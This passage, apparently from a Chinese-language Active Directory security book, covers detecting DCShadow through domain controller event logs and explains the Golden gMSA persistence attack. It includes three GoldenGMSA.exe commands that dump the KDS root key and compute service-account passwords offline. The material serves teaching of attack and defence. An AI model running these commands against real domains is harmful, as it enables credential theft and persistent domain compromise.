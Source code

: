 图 7.25 – DCShadow 将特权 SID 添加到 viserys.targaryen

检测可以通过网络流量监控或通过与域控制器的事件相关联来完成。蓝队可以通过监控来自非域控制器的特定 API 调用来检测传入的复制流量。在域控制器的安全日志中，防御人员可以检查 ID 为**4662**的一系列事件，通常包含**CreateChild**、**Control Access**和**Delete**，这些操作在短时间内被访问。以下是记录的恶意事件示例：

![图 7.26 – 恶意域控制器对象创建](img/B18964_07_26.jpg)

图 7.26 – 恶意域控制器对象创建

另一种实现持久化的方式是通过使用来自*Nishang*[7]的脚本，在 AD 对象上设置 DCShadow 所需的最小权限。

我们的最后一个域级持久化技术，即 Golden gMSA 攻击，允许特权攻击者离线计算域和林中的 gMSA 密码。

## Golden gMSA

让我们回顾一下，gMSA 用于服务账户的自动密码轮换，以缓解诸如 Kerberoasting 等攻击。我们在*第四章*中评估了这一解决方案的安全性。Golden gMSA 攻击最初由*Yuval Gordon*提出，他来自一家名为 Semperis 的公司。攻击的核心思想是，攻击者如果能够获取包含附加属性的**密钥分发服务**（**KDS**）根密钥，就可以离线计算 gMSA 的密码。

注意

原始研究可以在此处找到：[`www.semperis.com/blog/golden-gmsa-attack/`](https://www.semperis.com/blog/golden-gmsa-attack/)。

使用**GoldenGMSA**[8]工具，攻击者可以离线计算 gMSA 密码，因为它是由 KDS 根密钥和其他几个属性衍生出来的。攻击者需要运行三条命令来获取**base64**格式的密码。第一条命令列出所有可用的 gMSA，第二条命令转储相应的 KDS 根密钥和其他属性，第三条命令使用前两条命令的输出计算 gMSA 密码：

```
GoldenGMSA.exe gmsainfo
GoldenGMSA.exe kdsinfo
GoldenGMSA.exe compute --sid S-1-5-21-2801885930-3847104905-347266 793-1115 --kdskey <kds_from_step_2> --pwdid AQAAAEtEU0sCAAAA aQEAAAYAAAACAAAAVXiD+faLnEL66hoQ7gimmwAAAAAYAAAAGAAAAGUAcwBzAG8 AcwAuAGwAbwBjAGEAbAAAAGUAcwBzAG8AcwAuAGwAbwBjAGEAbAAAAA==
```
